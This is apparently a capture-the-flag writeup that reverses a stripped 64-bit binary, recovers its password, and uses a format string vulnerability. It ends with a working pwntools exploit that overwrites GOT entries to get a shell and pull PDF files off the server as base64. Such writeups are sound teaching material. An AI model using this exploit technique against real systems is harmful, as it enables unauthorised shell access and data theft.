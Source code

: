 ## CTF Challenge Writeup

### Step 1: Run `file` and `checksec` on the given binary

![image](images/file.png)

On running `file` on the executable we infer that it is a 64-bit binary, dynamically linked and stripped. Since it is stripped, we need the help of a decompiler to analyze it.

![image](images/checksec.png)

On running `checksec` we infer that it has 
- canaries and NX are enabled (NX being enabled means we can't use a shellcode).
- partial relro and pie disabled.
This hints that there might be a format string vulnerablity.

### Step 2: Run the executable and decompile it using Ghidra

![image](images/run.png)

We see that the executable asks for a password and gives a 4 sec window to enter the password. 

![image](images/check_fsv.png)

We check whether the password field has a format string vulnerability. But it doesn't.

![image](images/decompile_entry.png)

We decompile it with `Ghidra`. Since the executable is stripped, `Ghidra` shows the entry function. The first parameter of the `__libc_start_main` function is the main function. We can rename it as such.

![image](images/main.png)

The main function has 3 functions `FUN_00401216()`, `FUN_00401259()`, `FUN_00401448()` (function `FUN_00401230()` is a callback to handle the alarm() and does nothing interesting)

![image](images/print.png)

`FUN_00401216()` just prints.

![image](images/pass.png)

`FUN_00401259()` asks for the password. On first look we can say that this function obfuscates the input password and compares it to `cLVQjFMjcFDGQ`. Rename as `pass()`

![image](images/init.png)

`FUN_00401448()` is executed after the password is verified and this function does something interesting. This function has a format string vulnerability just below `printf("hello");` and then there is a system function that only lists the files in the server. Rename as `init()`

Based on these observations we can decide our course of action
- first, we reverse the password in the `pass()` function.
- second, we use the format string vulnerability to overwrite some libc function with the address of the `init()` function so that it loops arround and exploit the format string vuln as many times as required. We choose the `putc()` function to overwrite and when the function loops back, we use format string vuln to overwrite the the GOT table entry of `printf()` with system so that in the next looping, we can enter `/bin/sh`. This converts the `printf(s)` to essentially work like `system("/bin/sh")`.


### Step 3: Reversing the password

We shall rename few variables to analyze the `pass()` function

![image](images/pass_rename.png)


__Note__ : `input[10]` in the decompiled code and `fgets()` that writes upto 32 bytes we might think that there is a bof vulnerability but from the listing window we confirm that bof is not a possibility as the `input` is placed 0x38 bytes below the rbp as shown below.
![image](images/note.png)


We notice that some kind of ascii manipulation is done on each character of the input password string and then xor-ed against 0x35 (=53) to get another string which is compared to `cLVQjFMjcFDGQ`.

![image](images/peculiar.png)

Observe this peculiar line. Generally, modulo (%) operation when decompiled produces a code similar to this. A rule of thumb is that `(x / divisor) * -divisor` hints at a modulo operation involved.
Thus this line is essentially `iVar1 % 26`

On closer analysis the ascii manipulation is actually a Caesar cipher with shift = 10.

![image](images/shift_and_x.png)


So the input is first Caesar ciphered and then xor-ed character by character. 
We can reverse the xor using `xor()` from pwntools.

![image](images/xor_reverse.png)

We can reverse the Caesar cipher using this function. Passing this `Vycd_sx_Vsqrd` to the function we get the password "Lost_in_Light"

![image](images/caesar_cipher_reverse.png)

### Step 4: Overwriting the GOT table entry of putc to init() and overwriting the GOT table entry of printf with value at the GOT address of system

To use the format string vulnerablity we need
- the offset at which the string that we control is present
- the GOT address of putc and printf() and init() address as well as value at the GOT address of system().

The offset can be found using GDB (use `handle SIGALRM nostop noprint` to ignore the SIGALARM) 

![image](images/offset.png)

The offset is found to be 6 as the `ABCD`(0x44434241) appears at the 6 the position.

Using Ghidra we get the GOT address of putc = `0x00404048`and printf = `0x00404020` and init() function = `0x00401448` . Value at the GOT address of system = `0x00401060`.

![image](images/system_printf.png)

![image](images/putc.png)

![image](images/init_addr.png)


### Step 5: Crafting the exploit

Also the presence of `system("ls *.pdf")` in `init()` suggests that the flag we are looking is in a pdf format. We are required to read the pdf from the server. In order to read we'll convert the pdfs to base64, receive the bytes, decode it from base64 and write it as local files.

So our final exploit looks like 

``` python
from pwn import *
context.binary = ELF("path/to/binary")
context.log_level = "debug"

OFFSET = 6

# from reversing pass()
password = b"Lost_in_Light"

# from ghidra
system_plt = 0x401060
init_addr = 0x401448
putc_got = 0x404048
printf_got = 0x404020

# built in pwntools functions to overwrite GOT entries
fmt1 = fmtstr_payload(offset=OFFSET, writes={putc_got: init_addr}, write_size="short")
fmt2 = fmtstr_payload(offset=OFFSET, writes={printf_got: system_plt}, write_size="short")

p = process("path/to/binary")
# For remote
# p = remote(host,port)

p.sendlineafter(b">>> ", password)
p.sendlineafter(b">>> ", fmt1)
p.sendlineafter(b">>> ", fmt2)

p.sendline(b"/bin/sh")

p.clean()

p.sendline("ls")

# receiving the files as base64 and decoding back to pdf to read the pdfs
files = p.clean().decode().strip().split("\n")
for file in files:
  p.sendline(f"base64 {file}".encode())
  encoded_file = p.clean().decode()
  with open(file, "wb") as f:
      f.write(b64d(encoded_file))
```
The flag is present in the whispers_in_the_dark.pdf.

